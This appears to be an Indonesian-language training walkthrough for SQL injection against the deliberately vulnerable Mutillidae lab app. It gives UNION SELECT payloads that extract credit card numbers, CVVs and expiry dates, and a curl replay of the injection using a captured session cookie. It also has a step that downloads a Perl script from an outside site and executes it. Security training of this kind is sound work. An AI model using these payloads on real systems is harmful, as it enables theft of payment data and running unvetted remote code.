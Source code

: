 Lesson 8
--------
- **Step 1**    : Setting networks pada mozilla yang ada di Kali Linux dengan mengisi manual proxy dan diisi HHTP Proxy `127.0.0.1` dan port `8080`
- **Step 2**    : Buka aplikasi burpsuite yang sudah ada di Kali, lalu setting `intercept is off` pada tab proxy lalu tab intercept
- **Step 3**    : Lalu klik OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info pada mutillidae, lalu ubah size pada kolom **Name** dari **20** menjadi **100** lalu ketik `' union select null -- ` dan jangan lupa tambahkan spasi setelah `--` dan view account details
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/1.JPG)
- Lalu akan menghasilkan error
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/2.JPG)
- **Step 4**    : Lalu ubah lagi size pada kolom **Name** menjadi **100** lagi, dan ketik `' union select null,null,null,null,null --`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/3.JPG)
- Lalu akan muncul
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/4.JPG)
- **Step 5**    : Lalu ubah lagi size pada kolom **Name** menjadi **100** lagi, dan ketik `' union select 1,2,3,4,5 --`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/5.JPG)
- Lalu akan muncul
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/6.JPG)
- **Step 6**    : Lalu ubah lagi size pada kolom **Name** menjadi **100** lagi, dan ketik `' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/7.JPG)
- Lalu akan muncul
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/8.JPG)
- **Step 7**    : Lalu buka aplikasi burpsuite, pada tab proxy, lalu HTTP history, buka pada host yang terdapat method get yang baru kita lakukan pada mutillidae
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/9.JPG)
- **Step 8**    : Lalu ketik `curl -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards--+&password=&user-info-php-submit-button=View+Account+Details" --location "10.151.36.160/mutillidae/index.php" --cookie PHPSESSID=13c43bde4b32699c9a96034fc9e26134 | grep -i "Username=" > lesson8.txt` lalu ketik `cat lesson8.txt`
- Lalu akan muncul hasilnya seperti gambar berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/10.JPG)
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/11.JPG)
- **Step 9**    : Lalu ketik `wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT` lalu `mv lesson8.pl.TXT lesson8.pl` lalu `chmod 700 lesson8.pl` lalu `./lesson8.pl` dan akan muncul hasilnya seperti berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%208/13.JPG)
